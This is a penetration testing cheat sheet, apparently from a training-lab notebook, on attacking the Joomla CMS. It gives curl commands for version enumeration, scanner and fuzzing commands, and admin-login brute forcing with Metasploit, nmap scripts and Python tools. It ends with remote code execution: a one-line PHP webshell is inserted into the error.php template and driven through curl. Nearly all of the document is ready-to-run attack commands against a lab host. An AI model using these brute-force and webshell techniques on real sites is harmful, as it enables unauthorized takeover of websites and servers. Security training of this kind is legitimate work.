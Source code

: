# Joomla

[Joomla](https://github.com/joomla) is a popular open-source CMS designed to create and manage websites efficiently. It offers a flexible framework that supports a wide range of websites, from simple blogs to complex corporate portals. Joomla is **built with PHP** and **uses a MySQL database** to store content, making it widely compatible with common web hosting environments. Its modular architecture allows easy extension through plugins, components, and templates, enabling customization to fit specific needs. Joomla can be easily identified by its favicon:

<figure><img src="../../.gitbook/assets/joomla_favicon.png" alt=""><figcaption></figcaption></figure>

Joomla's has the following user roles:

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Enumeration

{% tabs %}
{% tab title="CMS" %}
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
{% endtab %}

{% tab title="Version" %}
```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

In certain installs, we may be able to discover the version from other dirs or JS files:

{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -

curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

# Version enumeration via JS files
curl -s http://dev.inlanefreight.local/media/system/js

# Plugins might helps us estimate the version
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="droopescan" %}
[`droopescan`](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well:

{% code overflow="wrap" %}
```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```
{% endcode %}
{% endtab %}

{% tab title="joomlascan" %}
[`joomlascan`](https://github.com/drego85/JoomlaScan) is an open source software that finds the components installed in Joomla CMS:

```bash
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```
{% endtab %}
{% endtabs %}

## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### Fuzzing

{% tabs %}
{% tab title="ffuf" %}
Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)):

{% code overflow="wrap" %}
```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
The MSF's module [`joomla_plugins`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_plugins/) can be used to enumerate plugins:

```bash
msf > use auxiliary/scanner/http/joomla_plugins
msf auxiliary(joomla_plugins) > show actions
        ...actions...
msf auxiliary(joomla_plugins) > set ACTION < action-name >
msf auxiliary(joomla_plugins) > show options
        ...show and set options...
msf auxiliary(joomla_plugins) > run
```
{% endtab %}
{% endtabs %}

### BFA <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>

{% hint style="warning" %}
Joomla `3.2` stable release bought 2FA as part of the core install which adds another challenge to BFAs. However, this isn't enabled by default.
{% endhint %}

The default administrator account is `admin` and the password is set at install time:

{% tabs %}
{% tab title="MSF" %}
MSF's [`joomla_bruteforce_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_bruteforce_login/) module can be used for a BFA:

```bash
msf > use auxiliary/scanner/http/joomla_bruteforce_login
msf auxiliary(joomla_bruteforce_login) > show actions
        ...actions...
msf auxiliary(joomla_bruteforce_login) > set ACTION < action-name >
msf auxiliary(joomla_bruteforce_login) > show options
        ...show and set options...
msf auxiliary(joomla_bruteforce_login) > run
```
{% endtab %}

{% tab title="joombrute" %}
[`joombrutev2`](https://github.com/CSpanias/JoomBrutev2) is the Python3 version of the original [`joombrute`](https://github.com/0rbz/JoomBrute):

{% code overflow="wrap" %}
```bash
# joobrutev2
python3 joombrutev2.py --url http://target/administrator --username admin --wordlist passwords.txt

# joombrute
python joombrute.py --url http://site/administrator --username admin --wordlist passwords.txt
```
{% endcode %}
{% endtab %}

{% tab title="joomla-brute" %}
[`joomla-brute`](https://github.com/ajnik/joomla-bruteforce) is Joomla login bruteforcer:

{% code overflow="wrap" %}
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}
{% endtab %}

{% tab title="Nmap" %}
`nmap` has a [Joomla-specific NSE](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) as well as a [general one](https://nmap.org/nsedoc/scripts/http-form-brute.html) for BFA against HTTP forms:

{% code overflow="wrap" %}
```bash
# Basic usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute <target>

# Custom usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-joomla-brute.hostname=domain.com, http-joomla-brute.threads=3,brute.firstonly=true' <target>

# General NSE script
nmap --script http-form-brute -p 80 <host>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### RCE <a href="#code_execution" id="code_execution"></a>

We can upload a webshell as by editing a template (e.g. `error.php`) and adding a PHP webshell:

```php
# Webshell payload
system($_GET['c']);
```

<figure><img src="../../.gitbook/assets/joomla_rce.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Interact with the webshell
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?c=id
```
{% endcode %}

### Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)
